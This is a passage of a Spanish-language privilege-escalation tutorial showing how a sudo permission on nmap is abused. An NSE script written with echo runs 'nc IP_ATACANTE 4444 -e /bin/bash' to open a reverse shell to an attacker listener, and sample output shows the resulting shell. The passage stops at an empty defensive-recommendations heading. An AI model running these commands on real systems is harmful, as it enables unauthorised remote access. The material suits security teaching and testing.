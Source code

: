 Es posible que se ejecute `/bin/bash`, pero no veamos nada en pantalla. En este caso, una buena alternativa es lanzar una **reverse shell**.

---

## Alternativa: Reverse shell con `nc`

Supongamos que tenemos una máquina de atacante escuchando:

```bash
# En el equipo atacante
nc -lvnp 4444
```

En el equipo víctima:

### Acción:

```bash
echo 'os.execute("nc IP_ATACANTE 4444 -e /bin/bash")' > /tmp/shell.nse
sudo -u User2 nmap --script=/tmp/shell.nse 127.0.0.1
```

---

### Resultado:

En la máquina del atacante, se obtiene una shell:

```bash
connect to [IP_ATACANTE] from [IP_VICTIMA] 12345
# whoami
User2
```

Si `User2` tiene más privilegios (por ejemplo, puede usar `sudo` sin contraseña), ya estamos a un paso de escalar a `root`.

---

## Explicación

- Hemos usado `echo` para generar el script `.nse` de forma rápida en `/tmp`, sin necesidad de editores.
    
- Hemos ejecutado `nmap` con `sudo -u` para abusar del permiso otorgado.
    
- Como `os.execute("/bin/bash")` lanza una shell sin feedback si la terminal no es interactiva, usamos una reverse shell con `nc` para obtener visibilidad.
    
- Esta técnica es extremadamente peligrosa si se permite a usuarios ejecutar `nmap` con NSE habilitado, ya que ejecuta Lua en el sistema operativo.
    

---

## Recomendaciones defensivas
